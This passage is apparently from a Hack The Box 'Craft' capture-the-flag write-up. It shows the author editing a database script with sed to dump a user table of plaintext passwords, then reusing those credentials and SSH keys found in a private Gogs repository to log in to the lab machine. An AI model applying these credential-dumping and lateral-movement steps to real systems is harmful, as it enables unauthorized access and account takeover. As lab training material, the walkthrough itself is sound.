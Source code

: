 ```console
/opt/app #
```

It's using pymsql to interact with the database, going to the documentation of it, we see that what we need is to use the `method fetchall()`
{{< image src="/images/htb/craft/1-rce.png" position="center" style="border-radius: 8px;" >}}
So, I change the script to do a `show tables` using `fetchall()` instead of `fetchone()`:

```console
/opt/app # sed -i 's/result \= cursor.fetchone()/sql \= \"show tables\"/' dbtest.py
/opt/app # sed -i 's/result \= cursor.fetchone()/result \= cursor.fetchall()/' dbtest.py
```

and post that, we ran the script, and we get 2 tables one that looks interesting named `user`, we modify again the sql query but to select all the records from that table:

```console
/opt/app # python dbtest.py
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
/opt/app # sed -i 's/sql \= \"show tables\"/sql \= \"SELECT * FROM user\"/' dbtest.py
/opt/app # python dbtest.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
/opt/app # 
```

So, we got the users `dinesh, ebachman and gilfoyle` and it's respective passwords, with that we go to `https://gogs.craft.htb` again and login as `gilfoyle` and we found that he has a private repo to deploy the infra called `craft-infra`

{{< image src="/images/htb/craft/1-gil.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/craft/2-gil.png" position="center" style="border-radius: 8px;" >}}

We notice there exists a `.ssh` folder, we look into it and we get a pair of public/private ssh keys:

{{< image src="/images/htb/craft/3-gil.png" position="center" style="border-radius: 8px;" >}}

We try to login via ssh as `gilfoyle` re-using the password we got earlier and we found a success (actually the first tries it failed for me, and spent some hours trying to break the id_rsa with john without success, so give a new try with trying the founded passwords):

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ssh gilfoyle@10.10.10.110 -i id_rsa


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```